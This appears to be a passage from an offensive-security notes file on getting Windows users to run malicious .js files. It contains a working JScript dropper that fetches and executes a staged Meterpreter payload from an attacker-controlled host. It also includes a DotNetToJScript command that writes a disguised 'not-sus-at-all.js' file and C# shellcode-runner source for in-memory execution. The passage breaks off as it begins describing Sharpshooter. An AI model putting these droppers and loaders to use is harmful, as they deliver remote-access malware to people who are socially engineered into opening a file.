 ### WScript

Default apps in Windows are worth being aware of. The default app for files with a `.ps1` extension is notepad. Therefore even if we successfully socially engineer a user into clicking on a malicious `.ps1`, it will not be executed, and will instead just be opened for editing. By contrast, `.js` files default to the Windows-Based Script Host, aka WScript. When executing `.js` files with `cscript` or `wscript` then the runtime in use is the JScript engine, a hilarious old and deprecated piece of shit. `JScript` provides many wonderful features for the attacker, for instance, direct interaction with ActiveX:

```javascript
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

Leveraging more advanced undocumented functionality of `JScript` to make HTTP requests we can implement a full dropper, requiring only a double-click on a `.js` file from a user. `met.exe` is assumed to be our prepped staged meterpreter payload, see `notes/shells.md`:

```javascript
var url = "http://192.168.x.x/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("met.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

This approach is simple, however lacking in subtlety, since it involves writing a file to the host. Staying on theme, we have an alternative way of keeping it all in memory. `JScript` alone lacks the functionality to run our staged payload in memory, however it _can_ deserialise and invoke a C\# DLL that has been base64 encoded and copied into the `JScript` file. The hard work here has been done for us by James Forshaw with `DotNetToJscript`. [The binary can be found here](https://github.com/tyranid/DotNetToJScript), when fed a `.dll` it will serialise and encode it as base64, embed the base64 as a string and then write a `Jscript` file around it with the purpose of decoding, deserialising, and finally invoking the binary:
```bash
DotNetToJScript.exe Payload.dll --lang=Jscript --ver=v4 -o not-sus-at-all.js
```
To build `Payload.dll`, take the following C\# and compile it as a DLL (VisualStudio or CLI):
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = new byte[626] {
            0xfc,0x48,0x83,0xe4,0xf0,0xe8... // replace me!!
        }

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}
```

### Sharpshooter

All of the above is kinda the hard way from first principles. Its all repeatable, generic and automatable. Introducing `Sharpshooter`: